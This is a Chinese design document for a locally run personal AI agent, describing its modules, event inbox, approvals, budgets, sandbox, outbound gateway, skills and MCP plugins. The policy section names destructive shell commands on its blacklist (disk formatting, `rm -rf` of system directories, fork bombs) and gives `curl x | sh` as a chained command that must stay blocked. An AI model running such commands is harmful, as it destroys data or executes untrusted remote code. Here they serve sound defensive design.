

# 架构设计

V3 的空间隔离、自有节点、任务恢复，以及现有的 API 服务边界，见 [V3.md](V3.md)。下面保留的是五个基本部件，和原来 Harness 的实现说明。

本项目是一个**常驻在你本机的个人 agent**：模型默认来自 OpenAI，也可以用兼容的端点，语音转写也可以用单独的服务。设计思路来自 Anthropic 的 always-on / automations / memory / managed-agents 指南（提炼见 [research/anthropic-guidance.md](research/anthropic-guidance.md)）。

**0.2.0 的能力边界、云端请求、可替换的接口和架构图，见 [V0_2.md](V0_2.md)**。0.2.0 新增了钉钉、Web 流式正文和文件成果；详细的约定见 [DINGTALK.md](DINGTALK.md)、[ARTIFACTS.md](ARTIFACTS.md)、[PROVIDERS.md](PROVIDERS.md)。下面保留了每次迭代的设计记录；其中的“待做”，只代表当时那次迭代的状态。OpenClaw / DeepSeek Harness / Grok 重建项目的最新、锁定版本的审阅，见 [REFERENCE_REVIEW.md](REFERENCE_REVIEW.md)。

## 设计原则

1. **简单优先。** 一个 agent loop，加围绕它的五个基本部件。不堆框架。
2. **状态放在外面，harness 本身不存状态。** 事件、会话日志、计时器、发件箱、记忆，全部落盘；任何 worker 崩溃之后，都可以靠租约过期，加会话日志恢复。
3. **按场景给工具。** 每次运行只带这次用得着的工具：对话给全套，定时任务、被外部内容唤醒的运行、做梦，各给一套小的。
4. **默认安静。** 后台 run 不主动发话；默认 `supervised` 模式；没有遥测；tracing 关闭。
5. **可以插拔。** 工具（MCP）、技能（Agent Skills）、渠道（适配器）、沙箱（后端）、模型端点，都可以替换；审计、预算、确认送达，对它们一视同仁。
6. **确定的事交给代码，要判断的事交给模型。** 书签 / 台账的提交、去重、送达确认、预算、读取偏好，由代码做；“这条值不值得说”，由模型判断。

## 总览



一次 run 的生命周期：

1. 事件进入**收件箱**（来自渠道、webhook，或到期的计时器）。
2. **Worker** 用租约，领取同一个会话的一批事件，把连续的用户消息合并。
3. **Harness** 创建或恢复会话，**强制重新读取偏好**（读不到就停下并报告），拼好上下文，调用 agent loop。
4. 每次工具调用，都要经过 **Policy Engine**：放行 / 拒绝 / 需要批准。需要批准的时候，run 会**挂起**（`RunState` 存进库里），审批请求进入**发件箱**；用户的答复，作为新事件回到收件箱，worker 再恢复这次 run。
5. run 的结局是三种之一：发出消息、决定保持安静、延迟（挂起）。
6. **Dispatcher** 负责投递发件箱，**确认送达之后**，才执行 `on_sent` 提交（书签、台账），并把已经发出的消息，同步进会话。
7. 夜里的**做梦**任务，回看对话记录，纠正并整理记忆。

## 模块布局

下面是模块的布局。已经做完的，标了 ✅；其余的，见文末的「实现状态」。

```
src/personal_agent/
  app.py           ✅ 容器：把所有长期运行的组件装配在一起（build_app）
  config.py        ✅ TOML 配置加环境变量；密钥只从环境变量或 .env 读取
  paths.py         ✅ PA_HOME 的目录布局和权限（0700）
  clock.py         ✅ 时钟的抽象（测试里可以手动拨时间），以及时区
  db.py            ✅ SQLite（WAL、事务、迁移）；还有维护用的方法：检查点、`optimize`、`VACUUM`、在线备份；打不开，或版本太新的库，不会一直开着
  maintenance.py   ✅ 数据整理：每一类记录一条规则（结束了才算，够旧才删），分小批，可以随时打断（`Janitor`）；文件体积和体检（`footprint`、`problems`）
  presence.py      ✅ 谁在运行 agent：引擎锁和心跳；不用加载 SDK，就能读
  parsing.py       ✅ JSON / YAML / TOML 的读取入口：嵌套太深和别名炸弹，会报成“文字不合法”，不会变成 RecursionError
  logs.py          ✅ 私有的滚动日志，输出之前先脱敏；没人负责轮转的日志（launchd 抓到的服务输出、MCP 服务器的错误流），就地截短（`trim_logs`）
  terminal.py      ✅ `SafeConsole`：终端里打印的每一段文字，都先去掉能隐藏文字、改写文字或操控终端的字符（转义序列、方向覆盖符），不靠每个调用的地方都记得清洗
  doctor.py        ✅ `pa doctor`：静态检查，加 `--live` 的真实调用
  launchd.py       ✅ macOS 常驻服务：LaunchAgent 的任务文件，和 `launchctl` 的安装 / 卸载 / 重启 / 状态（任务文件里没有密钥；一个 home 一个任务）
  core/
    events.py      ✅ 事件模型，和信任等级（owner / untrusted）
    inbox.py       ✅ 收件箱：去重、租约、批处理、毒丸
    sessions.py    ✅ 只追加的会话日志；适配 SDK 的 Session
    timers.py      ✅ follow-up 和 schedule；时区和夏令时都处理对了；错过了怎么办有策略；恰好触发一次
    approvals.py   ✅ 审批的请求 / 答复 / 过期 / 被覆盖；存取挂起 run 的状态
    budget.py      ✅ 单次 run 和每日的上限；今天临时加额
    outbox.py      ✅ 发件箱；on_sent 提交；maybe_sent
    runs.py        ✅ run 记录、用量、状态机
    worker.py      ✅ 领取批次、续租、判断失败的原因
    dispatcher.py  ✅ 投递和重试；静默时段，和每小时限流；确认送达之后，写进对话历史
    transcript.py  ✅ 给主人看的对话时间线（跨渠道，只增不改，和模型看到的会话日志分开）；全文检索（FTS5 trigram）
    live.py        ✅ 进程内的实时事件（谁在工作、用了哪个工具名、新一轮对话），给“正在输入…”和网页的流式输出用
    media.py       ✅ 图片按内容寻址存放；会话里只存引用，每次请求只展开最新的几张
  harness/
    runner.py      ✅ 封装 Agents SDK：每次重新读偏好、事件幂等落盘、实时记账、静默和投递的规则、
                      审批的挂起和恢复、调用模型之前检查预算
    instructions.py ✅ 系统指令，加每次唤醒的上下文块；把事件变成会话条目（不可信的内容放进围栏）
    prompts/       ✅ 运行协议和角色提示（system.md、profile_*.md）
    models.py      ✅ 模型端点的工厂、重试策略、隐私默认值（store=false，加密推理回放）
    pricing.py     ✅ 价格表和成本（包括长上下文的加价）
    errors.py      ✅ 判断失败的原因：环境问题，不消耗事件的重试次数
    runctx.py      ✅ 每次 run 传给工具的上下文
    compaction.py  ✅ 会话压缩：旧的部分换成摘要，近的原样保留；日志不删（只追加一条标记）
    dreaming.py    ✅ 夜间整理：按固定规则生成的摘要，加只有记忆、检索和（知识库开着时）三个笔记工具的 dream 画像，再加复核（删得太多或没做完，就整次撤销，笔记也一并撤回）
  vault/           ✅ 知识库：一个文件夹的 Markdown 笔记，Obsidian 直接打开。note（属性、`[[链接]]`、`origin`）、
                      index（内存里的增量索引、反向链接、检查）、store（谁能写什么、冲突检查、历史和撤销）、
                      generated（`wiki/index.md`、`wiki/log.md`、任务笔记、交回结果的笔记）、legacy（旧“资料”的搬运）
  orchestration/
    threads.py     ✅ 任务线：交给其他助手的每个任务一条线；跟进、巡检（卡住、等你）、自动收起、先别提醒、任务笔记
    narration.py   ✅ 任务相关的固定句子，和巡检的判断；纯函数，不碰数据库，不调用模型
  memory/
    store.py       ✅ VirtualFS：挂载 /memories、路径防护、大小上限、版本
    tasks.py       ✅ 任务进度索引：`state/tasks/` 里没做完的任务，一行一条（迭代 9 起，从 store.py 里分出来）
    templates.py   ✅ 第一次启动时的记忆模板
  security/
    redact.py      ✅ 密钥和敏感信息脱敏
    sanitize.py    ✅ 去掉隐藏字符和终端控制码
    policy.py      ✅ 分层的策略引擎
    guardian.py    ✅ `auto` 模式用的评审模型（失败就升级给人）
    floors.py      ✅ 命令黑名单：格式化磁盘、`rm -rf` 根/家/系统目录、fork 炸弹、直接写磁盘
    sandbox.py     ✅ seatbelt / docker / none 三种后端；用到时才探测（SandboxProvider）
    broker.py      ✅ 密钥占位符：请求发出时才填入真实的值
    ssrf.py        ✅ 出站网关：默认不连内网地址
    audit.py       ✅ 审计日志（每次工具调用的决定和结果）
  tools/
    base.py        ✅ 工具的类别、运行画像、注册表
    guard.py       ✅ 包住每一个工具：策略 → 审计 → 超时 → 输出脱敏和截断 → 污点标记；审批的文字只在这里生成（`summarize`）
    builtin.py     ✅ `memory`、`send_message`（含 `after_sent` 书签）、`schedule`，并按配置装入下面这些工具
    files.py       ✅ `list_files`、`read_file`、`write_file`、`edit_file`（只限工作区；原子写入有防护）
    safefs.py      ✅ 安全地打开文件：逐级检查目录，不跟符号链接，只读普通文件
    shell.py       ✅ `shell`（只有沙箱可用时才提供；复合命令带标记；每次调用有自己的超时）
    web.py         ✅ `web_fetch`、`http_request`；接入 OpenAI 托管的 `web_search`，并记账
    htmltext.py    ✅ 网页 → 可读文本（用标准库实现，不会把你浏览的地址发给第三方的“阅读器”）
    urls.py        ✅ 出站地址的来源记录：主人写的、页面里链接过的，还是模型自己拼的
    skills.py      ✅ `skill`：按名字读取一个已经安装的技能的完整说明（渐进披露的第二层）
    history.py     ✅ `search_history`：检索对话记录（更早的、别的渠道的、被压缩或被 /new 隐藏的）
    vault.py       ✅ `vault_search`、`vault_read`、`vault_write`：知识库的三个工具（读到外面来的笔记，按不可信的内容处理）
  skills/          ✅ Agent Skills：宽松的解析、目录扫描和目录块、安装（审阅 / 原子替换 / 回滚）、随 `pa init` 附带的起步技能
  plugins/
    mcp.py         ✅ MCP 枢纽：连接、列出、按审阅状态决定提供哪些工具、调用、重连和退避
    mcp_pins.py    ✅ 已审阅的工具定义（`mcp_pins` 表）：新增或改动的工具，先扣下
    mcp_convert.py ✅ 服务器给的文字 → 模型看到的文字（命名、schema、结果、清洗）
    mcp_config.py  ✅ `pa mcp add/remove` 用的 config.toml 编辑（保留注释，先校验，原子写入）
    registry.py    ✅ Python 插件：entry point 组 `personal_agent.plugins`，加 `[plugins] enabled` 白名单
  channels/
    base.py        ✅ Channel 协议；ChannelError（一定没送到），和“其他异常 = 结果未知”
    cli.py         ✅ 终端渠道
    pairing.py     ✅ 配对：8 位没有易混字符的码、1 小时有效、每个渠道最多 3 个待批、只能在本机批准
    ingress.py     ✅ 所有聊天渠道交给 agent 的唯一入口：清洗、命令、语音转文字、图片入库、去重、记账
    pacing.py      ✅ 短的纯文字回复，按段落分成几条，隔一会儿发出（Telegram、钉钉）；带格式的、长的、紧急的整条发
    commands.py    ✅ `/new` `/status` `/approvals` `/approve` `/deny` `/help`：在渠道层处理，不经过模型
    transcribe.py  ✅ 语音转文字的端口（默认 OpenAI；Ogg 经 ffmpeg 转成 m4a）；音频从不落盘
    registry.py    ✅ 按配置装配渠道（内置的和插件的，走同一条路）
    telegram/      ✅ api（httpx 客户端，明确区分“一定没发出去”和“结果未知”）、render（Markdown → Telegram HTML，加切分）、channel
    http.py        ✅ 嵌在守护进程里的小型 HTTP 服务（有三个习惯：关掉 uvicorn 接管信号；端口被占就 exit；关机时等连接）
    web/           ✅ 聊天网页：security（Host / Origin / Fetch-Metadata / `X-PA` / CSP）、auth（配对链接 → 会话，只存哈希）、
                      api（Starlette 路由 + SSE）、channel；`static/` 是不用构建的 PWA（原生 ES 模块、Service Worker、图标）
    webhooks/      ✅ 让别的程序叫醒它：signatures（github / gitlab / standard / generic 四种验签）和 service（独立监听、限流、去重）
  daemon.py        ✅ 单实例锁，加 worker / scheduler / dispatcher / 巡检循环，加优雅停机；渠道服务（迭代 4）挂在这里
  cli.py           ✅ `pa` 命令的装配（约 90 行）：每个主题一个 Typer 应用，在 `GROUPS` 里挂起来；只有真的要跑 agent 的命令，才加载模型 SDK
  commands/        ✅ 每个主题一个模块：setup、chat、conversation、serve、inspection、timers、outbox、sessions、budget、memory、
                      skills、mcp、plugins、channels、web、webhooks、dream、service、evals、db、vault；共用的东西在 `common.py`
                      （终端、`say` / `echo` / `warn` / `fail`、`opened()`、退出码：0 成功 / 1 失败 / 2 用法错误或没设置好），
                      `pa status` 和聊天里的 `/status`，共用 `views.py`
  evals/           ✅ 行为评测：spec（YAML 场景的格式）、bench（在一次性的 home 里，真的把 harness 跑一遍）、checks（只看效果的判分）、
                      runner（脚本化的自检 / 真实模型多次试验）、report（JSON + Markdown 报告）、scenarios/（内置 6 个）
```

## 数据与目录（`PA_HOME`，默认 `~/.personal-agent`）

```
config.toml          用户配置（不含密钥）
.env                 密钥（0600）
state.db             收件箱 / 会话日志 / 计时器 / 发件箱 / runs / approvals / audit / memory_versions / vault_versions / threads / senders / pairings / web_invites / web_sessions / transcript / spend
memory/
  preferences/       归用户所有，agent 只能读（instructions.md、profile.md …）
  state/             归 agent 所有，可读写（MEMORY.md 索引、notes/、tasks/、ledger.md、bookmarks.json、proposals.md、runs/）
vault/               知识库：wiki/ raw/ threads/ daily/（`[vault] path` 可以改到你的 Obsidian 仓库里；每个项目空间在 spaces/<id>/vault）
skills/              用户安装的 Agent Skills
media/               收到的图片（文件名就是内容哈希，0600；语音不保存）
workspace/           shell / files 工具的工作目录（沙箱里唯一能写的地方）
backups/             `pa db backup` 默认存到这里（0700；每份只有主人能读）
logs/ run/           日志、锁文件
```

> `.gitignore` 已经排除了 `.env`、`*.db`、`.pa-home/`。

## 关键机制

### 事件收件箱（`core/inbox.py`）
- 表 `events`：`source / kind / session_key / payload / external_id / trust / status / attempts / lease_expires_at`。
- **去重**：`(source, external_id)` 唯一索引；webhook 用它自己的投递 ID，计时器用 `timer:{id}:{due}`。
- **租约恢复**：worker 崩溃之后，租约会过期，事件回到 `pending`，`attempts` 加 1；超过上限，就进入 `dead`，并通知用户。**正在跑的 run 的租约，不会被收走**：持有者在进程里登记（`Inbox.holding`），认领、`has_ready` 和回收，都会跳过登记过的租约（电脑睡了一觉、续租晚了，也不会有第二个 worker，把同一条消息再跑一遍）；续租真的失败了（租约已经是别人的），就取消这次 run，不再结算（`Batch.lost`）。
- **批处理**：同一个会话里，连续的用户消息，合并成一次 run；一批里只放同一个信任等级的事件，主人的话和 webhook 事件不会混在一批里。
- **信任等级**：渠道适配器标注 `owner` 或 `untrusted`；`untrusted` 事件（webhook、第三方邮件）触发的 run，从一开始，就算“污点”。

### 计时器（`core/timers.py`）
- 和收件箱分表存放。`followup`（agent 给自己定的截止时间）和 `schedule`（cron，带时区）。
- scheduler 轮询到期的项，在**同一个事务**里，写进收件箱，并推进状态（followup→fired；schedule→下一次的时间）。
- 错过了怎么办：`fire_once`（默认，补一次）或 `skip`；绝不“补发一堆”。
- “今天 / 昨天”，按**用户的时区**来算，并写进每个后台 run 的第一条消息（Anthropic B 里常见的 bug）。

### 会话日志（`core/sessions.py`）
- `session_events` 只追加。模型能看到的历史，是一个**视图（投影）**：最近一次 `compaction` 之后的条目，加压缩摘要。原始的对话记录，永远不删（做梦和审计要用）。
- 适配 SDK 的 `Session` 协议：`get_items/add_items/pop_item/clear_session`；`pop_item` 和 `clear_session`，用墓碑事件来实现，不真的删除。

### 记忆（`memory/`）
- 两个挂载点：`/memories/preferences`（对 agent **只读**）和 `/memories/state`（可读写）。
- 工具命令和返回格式，和 Anthropic memory tool 的规范对齐：`view / create / str_replace / insert / delete / rename`；所有路径，都要经过 `resolve()` 加前缀校验，拒绝路径穿越和 URL 编码的穿越；单个文件和总量，都有上限；`view` 的输出有上限，并支持 `view_range`。
- **只存查不到的东西**；外部系统里已经有的，只存一个指针。
- 注入层：`preferences/instructions.md`（每次 run 都重新读）加 `state/MEMORY.md` 的前 200 行 / 25KB（索引）。其余的按需读取。
- 每次写入，都记录到 `memory_versions`（actor = agent / user / dream），可以回滚；记忆的内容作为资料放进上下文，不当指令。
- 偏好要改：agent 只能写 `state/proposals.md`；用户用 `pa prefs proposals` 接受。

### Harness（`harness/runner.py`）
- 每次 run，构造一个 SDK `Agent`（`instructions` 是可调用的，run 开始时取一份快照），通过 `Session` 适配器读写会话日志。
- **挂起 / 恢复**：策略返回 ASK → SDK 产生 `interruptions` → `RunState.to_string()` 存进 `run_states` → 审批请求进发件箱。用户的答复事件到了之后，`RunState.from_string()` 加 `approve/reject` → 继续。快照只来自本机的 SQLite。
- **预算**：每次调用模型**之前**（`RunHooks.on_llm_start`），检查单次 run / 单日上限，调用之后只记账——先付了费，再把答案丢掉，是不对的。超限 → `BudgetExceeded` → 标记成 `paused_budget`（暂停，不算失败）；单日上限，会把事件延后到本地午夜（每天只通知一次），`pa budget extend` 可以当天放行。
- **上下文裁剪**：会话太长的时候，在新的话加进去之前，压缩成摘要（见「压缩」）；一次 run 内部，把较早的大体积工具输出换成占位符（tool-result clearing），**没有做**——工具结果在写进日志之前，已经被截断了，而且一次 run 受 `agent.max_turns` 和预算限制。
- **提示缓存**：`instructions` 保持稳定；时间、触发事件之类动态的内容，放在输入的末尾。
- **模型端点**：`OpenAIResponsesModel`（默认）；`base_url` 可以指向兼容的端点，也可以降级到 Chat Completions。

### 策略引擎（`security/policy.py`）

每次工具调用，按下面的顺序判断，先命中的先生效（顺序借鉴了 Hermes 和 ZeroClaw）：

| 序 | 层 | 结果 |
|----|----|------|
| 0 | **命令黑名单**（`security/floors.py`，写在代码里；目前只管 shell 命令） | 拒绝（批准之后也一样） |
| 1 | **`deny` 规则**（配置里的 `工具名` 或 `工具名:细节` 模式） | 拒绝 |
| 2 | **画像**：本次 run 能用哪几类工具（`full / scheduled / untrusted / dream`） | 不在画像里的工具，不提供 |
| 3 | **`read_only` 模式** | 只放行读、记忆、通知、一次性提醒，其余拒绝 |
| 4 | **`always_ask`** 规则 | 问主人（`auto`、`autonomous` 下也问） |
| 5 | 本次 run 已经读过外部内容时，`schedule / write / exec / net_write / config` 类的工具 | 问主人（`allow_when_tainted` 列出的除外；`autonomous` 不问） |
| 6 | **`allow` 规则**（比如 `shell:git status*`） | 放行 |
| 7 | **模式默认值**：`supervised`（默认）读、记忆、通知、提醒放行，其余问主人 · `auto` 交给评审模型 · `autonomous` 放行 | 放行 / 问 / 评审 |

> `deny` 和 `always_ask` 对 shell 命令里的每一条子命令各匹配一次，所以 `deny = ["shell:rm -rf *"]` 也能拦住 `ls && rm -rf build`；`allow` 只匹配完整的一行，所以放行 `git status*`，不会连带放行 `git status; curl x | sh`。

- **评审模型**（仅 `auto` 模式）：用一个快速的模型判断一个动作，只输出 `APPROVE / DENY / ESCALATE`，拿不准就问主人。
- 工具按类别声明：`read / memory / notify / remind / schedule / write / exec / net_write / config`；有的工具按参数归类（`schedule` 的一次性提醒是 `remind`，周期任务是 `schedule`）；MCP 工具默认是 `exec`（stdio）/ `net_write`（http），你可以用 `read_only` 指定哪些只读。
- 审批超时，按拒绝处理；主人在审批还没决定的时候又发来新消息，待决的审批作废。
- 参数不合法（比如错误的 cron、过去的时间）的调用，直接把错误还给模型，不打扰主人。
- 读过外部内容的 run 创建的计时器，触发时仍按 `untrusted` 画像运行。

### 审批：挂起与恢复（`core/approvals.py`、`harness/runner.py`）
- 策略要求问主人时，run 挂起：SDK 的 `RunState` 存进 `run_states`，请求经发件箱发给主人（`approval_request`），worker 随即空闲，等待期间不占资源。
- 主人答复（`/approve N|all`、`/deny N 原因`，或者 `pa approve|deny`）→ 写入一条 `approval_response` 事件（幂等键 `resume:{run}:{轮}`）→ worker 取出状态，继续。重启之后也能恢复。
- 批准过的动作，最多执行一次：执行之前，先在审计里记一条 `running`；崩溃之后，这次调用标成 `interrupted`，模型会被告知结果未知，不会重放。
- 主人在等待期间发来新消息，待决的请求作废（`superseded`），对应的调用用明确的文字收尾；过期同样按拒绝处理。
- 请求的文字只在一个地方生成（`tools/guard.py::summarize`）：一行，密钥打码，带上请求头、请求体、写入内容这些载荷；超过 1200 个字符的部分，会写明“还有 N 个字符没显示”。终端、手机聊天、网页、表格四处显示的是同一行。
- `/approve all` 只管当前这段对话里等着的请求；别的会话里的请求不会被一起批准，回复里会提示“别处还在等：…”。`pa approve` 找不到要批的东西时，退出码不是 0。
- 评审模型（`auto` 模式）也是一次模型调用：run 的预算用完了，就不再请它评审，直接问主人。

### 常驻进程（`daemon.py`）
- **谁在运行 agent**，由文件锁（`run/engine.lock`，`flock`）来决定，进程死了，内核会自动释放，不会残留。持有者可以是 `pa serve`（后台服务），也可以是一次单独的 `pa chat` / `pa ask`（在本进程里运行 worker）。
- `pa chat` / `pa ask` 发现锁被后台服务持有的时候，进入**客户端模式**：只提交事件并等待，终端消息留在发件箱里，当作“信箱”，下次打开聊天的时候送达。**恢复崩溃遗留的状态，只由持锁的一方来做**，免得误伤另一个进程里正在运行的 run。
- 循环：`concurrency` 个 worker（每个会话同一时间，只有一个 run）、scheduler（`timers.tick()`）、dispatcher、巡检（过期审批加心跳）、整理（每天一次的数据库整理；以及每小时一次，把没人负责轮转的日志——launchd 抓下来的服务输出、各个 MCP 服务器的错误流——超过 5 MB 的，就地截回最后 1 MB；`pa.log` 自己会轮转）。空闲的时候，只做**只读**的 `has_ready()` / `has_due()` 检查，不抢写锁；任何新事件、新消息，都会唤醒所有的循环。
- 停机（SIGINT/SIGTERM）：先让进行中的 run，在 `shutdown_grace_s` 内做完，其余的取消，并**原样归还**事件（不消耗重试次数）；再按一次 Ctrl-C，强制退出。服务（渠道）崩溃，会带着退避重启，不拖垮核心循环。
- 客户端不等“只是在等待重试”的事件（环境故障退避中），也不会把主人的 Ctrl-C，变成对后台 run 的中断。

### 预算与通知闸门
- `BudgetGuard`：单次 run 的上限，防止死循环；每日上限（本地午夜重置），防止账单失控；`status` 和 `pa budget` 会显示今天的花费、上限和重置时间。
- `Dispatcher`：静默时段里，只投递 `urgent` 和交互式的回复；非紧急的后台消息，每个渠道每小时有上限，超出的顺延到下一小时（是顺延，不是丢弃）。

### 沙箱与“双手”（`security/sandbox.py`、`security/floors.py`、`tools/shell.py`、`tools/files.py`）
- 统一的接口：`execute(command, *, timeout_s) -> ExecResult`。后端有三种：
  - **seatbelt**（macOS，`sandbox-exec`）：系统库只读，工作区可读写，`[sandbox] extra_read` 里的目录只读；不联网，也不碰剪贴板、钥匙串这类系统服务。已经用真实的进程验证过；
  - **docker**：不经过 shell，`--network none`，根文件系统只读，`--cap-drop ALL`，限制进程数（还没有对真实的 daemon 验证过）；
  - **none**：不隔离，命令直接以你的身份运行（`[sandbox] backend = "none"`）。
- 子进程的环境变量走白名单，不带 API key；输出会截断；正常退出、超时和取消，都会清理整个进程组（docker 后端同样清理容器）。判断命令是否结束，靠轮询 `returncode`，不靠管道关闭；最低支持的 Python 3.11，有单独的回归测试。
- **用到时才选后端**：第一次需要的时候探测这台机器，真的跑一个小进程确认可用；常驻进程启动时会预热。沙箱不可用时，不提供 `shell` 工具，`pa doctor` 会说明原因。
- **命令黑名单（floors）**：只拦会毁掉机器的几类：格式化或重新分区磁盘、`rm -rf` 根目录 / 家目录 / 系统目录、fork 炸弹、直接写磁盘设备。直接拒绝，批准也不行。它读的是命令文本：看位置（`grep reboot` 不会被误拦），先剥掉引号、反斜杠和 `${IFS}`，批准之后、执行之前再查一次。别的命令，由沙箱限制，并按策略问你。
- **文件工具**只读写 `PA_HOME/workspace`（已安装技能的目录只读）；`.env`、数据库、记忆都在它之外。打开文件时逐级检查目录、不跟符号链接（`tools/safefs.py`），只读普通文件，在线程里读；写入用原子替换，有大小上限，不读二进制。

### 密钥与联网工具（`security/broker.py`、`security/ssrf.py`、`tools/web.py`、`tools/urls.py`）

**出站网关**（`ssrf.py`，借鉴 hermes-agent 的做法，代码是自己写的）
- 联网工具默认不连回环、内网、链路本地和云元数据地址。检查在连接的那一刻做：域名解析之后，对每个结果检查，再连到检查过的 IP。
- 每次重定向都是一个新请求，重新检查；跨站时只带接受类型、语言、UA 这几个头。整个请求（包括重定向和下载）有总期限 `[net] deadline_s`（默认 60 秒）；不读环境代理，不走 unix socket。
- 想让它访问自家的设备：`[net] allow_private = ["homeassistant.local", "192.168.1.0/24"]`。
- **VPN / 代理的 fake-IP 模式**（Clash、Surge、Shadowrocket 等）会把每个公网域名解析成 `198.18.x.x`，于是所有网页工具都不能用。`pa doctor` 能发现这种情况，修法是把 `"198.18.0.0/15"` 加进 `allow_private`；加了之后，连接实际去哪，由代理决定。

**密钥占位符**（`broker.py`）
- 模型写 `{{secret:github}}`，工具在发出请求的最后一刻才填入真实的值；只对这个密钥 `hosts` 里的主机（精确匹配，或 `*.example.com`）、并且走 https 才填。配置见 `[secrets.NAME] env = "..."  hosts = [...]`，值只存在 `.env` 里。
- 值不会出现在对话、审计、审批的问题和发件箱里；服务器把值回显出来，结果里也会抹掉。写错的占位符会报错，不会原样发出去。

**网页工具**（`web.py`）
- `web_fetch` 把页面转成可读的文本（用标准库实现）；`http_request` 调 API。读（GET/HEAD/OPTIONS）直接放行，其余算 `net_write`，要问你。
- 抓回来的内容围进 `<untrusted>`；读过外部内容的 run，之后的写入类动作先问你。
- 这样的 run 里，访问一个没见过的完整地址，也要先问你。“见过”指：主人写在消息或定时任务里的、页面或搜索结果链接过的、已经批准过的。常用的 API 可以预先放行：`allow_when_tainted = ["http_request:GET https://api.open-meteo.com/*"]`。
- **OpenAI 托管的 `web_search`**（仅 Responses API）：只在主人 / 定时的 run 里提供，可以 `deny` 掉，或设成 `cached`（只查 OpenAI 的索引）；每次搜索都进审计，计入 run 的费用（`web_search_call_usd`）；返回的来源和引用链接算“见过”。

### Agent Skills（`skills/`、`tools/skills.py`）

格式用的是开放的 Agent Skills 规范：一个文件夹，里面有 `SKILL.md`（YAML 前言 + Markdown 正文），可以带 `scripts/`、`references/`。解析比较宽松：读不出前言、没有 `name` / `description` 的技能会被跳过；名字和目录不同、描述太长这类小问题，只记一条警告，由 `pa skills` 和 `pa doctor` 显示。

- **分三层读**：① 系统提示里只有目录（每个技能的名字加一行描述，受 `[skills] description_chars` 和 `catalog_chars` 限制，放不下的只列名字）；② 任务匹配时，模型调用 `skill` 工具读正文；③ 技能自带的文件用文件工具读（已安装技能的目录对文件工具只读），脚本在沙箱里运行，每次问你。
- **安装**：技能放在 `PA_HOME/skills`。`pa skills install <文件夹 | https git 地址>` 会列出文件清单、脚本和警告，确认后复制到临时目录，再整体替换，失败就回滚；不装符号链接，git 只用 https。
- 技能里写的“执行某个脚本”只是文字，工具照样走策略和审批；前言里的 `allowed-tools` 会被忽略（记一条警告）。
- **用 `$name` 激活**：只在主人的消息里有效，每条最多 3 个；`disable-model-invocation: true` 的技能只能这样激活。
- **起步技能**：`pa init` 带两个（`skill-builder` 教 agent 帮你写技能，`research-brief`）；只装一次，你删掉的不会被装回来，已经存在的不会被覆盖。
- 技能文件里的隐藏字符（标签字符、双向覆盖、控制码）在解析时去掉，并记一条警告。

### MCP（`plugins/mcp*.py`、`commands/mcp.py`）

MCP 服务器是你选的程序或网络服务，给 agent 增加工具（文件、GitHub、数据库……）。它的每个工具，和内置工具走同一套策略、审批、审计、超时和输出上限。

- **接入方式**：用 SDK 的 `MCPServerStdio` / `MCPServerStreamableHttp` / `MCPServerSse`；每台服务器一个 `MCPServerManager`（连接和关闭在同一个任务里，anyio 要求这样）。工具以 `mcp__<服务器>__<工具>` 注册进 `ToolRegistry`。
- **工具定义要先看过**：每个工具的定义（摘要加全文）存在 `mcp_pins` 表里。
  - `pin = "ask"`（默认）：运行 `pa mcp trust 名字`、看过定义之前，不启动这个程序；
  - `pin = "auto"`：第一次列出的定义，直接接受；
  - 两种模式下，之后新增的、或描述改变的工具，都会先扣下，等你再看一眼。`pa mcp trust` 显示的就是模型将要读到的文字，改动过的工具会显示差异；你确认的是刚才看到的那一版。
  - 在另一个进程里运行 `pa mcp trust`，运行中的 agent 下一次 run 就会感知到。
- **类别**：`read_only = ["get_*", "list_*"]` 声明的只读工具，直接放行；其余按 `stdio` → `exec`、`http/sse` → `net_write` 处理，要问你。服务器自己报的 `readOnlyHint` 默认不采信（`trust_annotations = true` 才采信）。`allow_tools` / `deny_tools` 先过滤；`max_tools`（默认 80）限制总数，因为工具太多，模型会选不准。
- **结果**：围进 `<untrusted source="mcp:名字">`（只返回你自己数据的服务器，可以设 `taints = false`）；图片 / 音频 / 二进制资源只留一行说明；太长的会截断。服务器自己报告的失败，当作数据返回。
- **环境**：stdio 的子进程只拿到 `HOME LOGNAME PATH SHELL TERM USER` 和你在 `env` 里写的变量；`${NAME}` 从 agent 的环境（`.env`）取值，`env` / `headers` / `args` / `url` 里不能写死凭据；纯 `http://` 只允许本机；程序的 stderr 写进 `logs/mcp-名字.log`（0600，每次启动清空）。
- **故障只影响它自己**：连不上、超时、列表变了，都只是给模型的一条备注，run 照常完成；每台服务器各自指数退避（从 `retry_s` 起，最长 10 分钟）；一次调用失败或超时之后，下一次 run 先重新列出，死了就重连。工具调用从不自动重试（一次调用可能已经产生了效果）。
- **没有提供**：sampling、elicitation、roots。
- **审批可以在重启之后才来**：批准的时候，服务器可能已经重启或者消失；恢复时会重新连接，工具已经不存在的话，模型会被告知“已批准，但工具现在不可用，什么也没做”，审计记为 `unavailable`。
- **生命周期**：一个枢纽绑定一个事件循环；所有会让循环结束的地方（`pa ask`、`pa chat`、守护进程、`pa mcp ...`、评测的每个试验）先 `stop_services()`，关掉 MCP 的连接和程序，也关掉到模型和语音转写服务的 HTTP 连接；守护进程在后台预先连接，第一个 run 不用等。
- **`pa mcp`**：`list`（不连接）、`tools 名字`（连接，并列出每个工具会被怎样处理）、`trust 名字`（看过并接受）、`add 名字 -- 命令 参数…` 或 `add 名字 --url …`（写进 `config.toml`，保留注释和排版，先校验，再原子写入）、`remove 名字`（同时忘掉审阅记录）。`pa doctor` 会指出：程序找不到、环境变量没设置、还没看过定义。

### Python 插件（`plugins/registry.py`）

只有 MCP 做不到、又必须在进程内运行的扩展，才用插件（首选 MCP：它在独立的进程里）。包通过 entry point 组 `personal_agent.plugins`，提供 `register(api)`。

